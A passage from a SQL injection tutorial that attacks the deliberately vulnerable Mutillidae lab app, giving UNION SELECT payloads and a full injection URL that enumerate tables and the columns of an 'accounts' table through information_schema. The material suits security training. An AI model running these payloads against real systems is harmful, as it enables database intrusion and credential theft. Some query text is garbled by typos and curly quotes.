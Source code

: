 
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema%20=%20%E2%80%98owasp10%E2%80%99%23&password=sk710-info-php-submit-button=View+Account+Details

![](o18.png)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
